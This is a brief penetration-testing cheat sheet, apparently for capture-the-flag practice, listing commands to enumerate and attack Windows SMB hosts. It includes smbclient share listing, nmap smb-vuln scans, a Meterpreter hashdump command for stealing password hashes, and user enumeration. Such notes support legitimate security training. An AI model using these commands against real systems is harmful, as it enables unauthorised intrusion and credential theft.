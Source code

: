 For SMB

    smbclient -L //ip/
  
`this shows the directory on smb listening`

    smbclient //ip/{directory from above command}
  
For SMB Exploit 

    nmap -sC -sV -A ip --script=smb-vuln*
  
hashdump of windows

`inside the meterpreter shell` 

    run post/windows/gather/hashdump

Searching Files or Flag in windows machine

    dir flag*.txt /s /p
Fatching the usernames of the machine

    net users
